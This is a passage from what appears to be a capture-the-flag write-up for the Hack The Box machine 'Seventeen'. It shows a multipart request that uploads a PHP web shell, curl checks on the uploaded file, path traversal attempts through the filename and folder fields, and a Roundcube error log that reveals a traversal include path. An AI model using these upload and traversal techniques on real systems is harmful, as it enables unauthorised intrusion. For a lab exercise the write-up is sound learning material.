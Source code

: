 ?> 




------WebKitFormBoundaryoU7e61zJ2uFx22E8
Content-Disposition: form-data; name="stud_no"

31234
------WebKitFormBoundaryoU7e61zJ2uFx22E8
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryoU7e61zJ2uFx22E8--
```

The file exists in the directory but execution/access is forbidden.

```
┌──(kali㉿kali)-[~]
└─$ curl http://seventeen.htb:8000/oldmanagement/files/31234/shell.php
<h1>Forbidden</h1>                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ curl http://seventeen.htb:8000/oldmanagement/files/31234/notmy_shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at seventeen.htb Port 8000</address>
</body></html>
```

Lets try some ```path travsersal``` by editing the filename:

```
Content-Disposition: form-data; name="file"; filename="../shell.php"
```

Did not work:

```
┌──(kali㉿kali)-[~]
└─$ curl http://seventeen.htb:8000/oldmanagement/files/shell.php 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at seventeen.htb Port 8000</address>
</body></html>
```

Maybe the folder parameter?
```
------WebKitFormBoundaryoU7e61zJ2uFx22E8
Content-Disposition: form-data; name="stud_no"


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)